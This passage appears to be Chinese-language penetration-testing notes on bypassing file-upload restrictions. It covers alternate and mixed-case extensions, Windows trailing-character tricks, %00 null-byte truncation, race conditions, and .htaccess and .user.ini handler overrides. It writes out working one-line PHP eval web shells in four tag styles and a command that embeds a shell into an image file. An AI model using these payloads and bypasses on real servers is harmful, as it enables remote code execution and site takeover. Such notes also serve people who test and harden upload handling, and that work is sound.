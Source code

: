   ~~~
- asp：asa cer aspx
- jsp：jspx jspf
- php：php php3 php4 php5 phtml pht
- exe：exee

**扩展名大小写绕过**：

- php =》Php、PHP

**扩展名末尾添加字符绕过**：可以抓包后修改文件名

-  利用 Windos 服务器特性，文件后面的 **.** 、空格、::$DATA 均会被删除，可以在传输的使用添加绕过黑名单

**%00 截断绕过**：可以抓包后修改文件名

- %00 截断，URL 中 %00 解码成 16 进制就是 0x00，在 ascii 中表示 null 字符，自然被丢弃，PHP < 5.3.4
  - 1.php0x00.jpg 解析后变为 1.php
  - 由于决定最后上传文件的真实后缀名的是拼接路径的方法
- 条件限制：
  - 路径拼接直接使用原文件名，与路径拼接完之后可以通过 00 截断变成预期后缀
    - /xxx/xxx/a.php%00.jpg
  - 文件路径可控，先构造一个存在截断字符的后缀
    - ../upload/phpinfo.php%00/a.jpg

**图片马绕过**：

- copy 1.jpg/b + shell.php/a 2.jpg，或者使用 16 进制编辑器，直接将一句话贴入图片木马

**二次渲染绕过**：

- 主要在于找到上传前后文件不变的位置，将该段数据改为一句话木马

**条件竞争绕过**：

- 上传文件后，服务器先保存再判断合法性，因此可以进行并发上传，在服务器来不及修改时连接上

**黑名单字符绕过**：

- <? 被限制，则无法使用 <?php，可以用 \<script language="php"> 替换

- ~~~php
  <?php @eval($_POST['cmd']); ?>          	// 正常写法
  <? @eval($_POST['cmd']); ?>                	// 短标签，适合过滤php
  <% @eval($_POST['cmd']); %>                	// asp风格
  <script language="php">eval($_REQUEST['cmd']);</script>   //<script>风格，适合过滤<?
  ~~~

**.htaccess绕过**：目录配置文件

.htaccess 文件可以将 info.jpg 文件当作 php 文件解析执行，用于绕过一些后缀名限制

- ~~~php
  <FilesMatch "info.jpg">
  SetHandler application/x-httpd-php
  </FilesMatch> 
  ~~~

**user.ini绕过**：

用户自定义的目录配置文件

~~~php
auto_prepend_file=<filename>         // 包含在文件头
auto_append_file=<filename>          // 包含在文件尾
~~~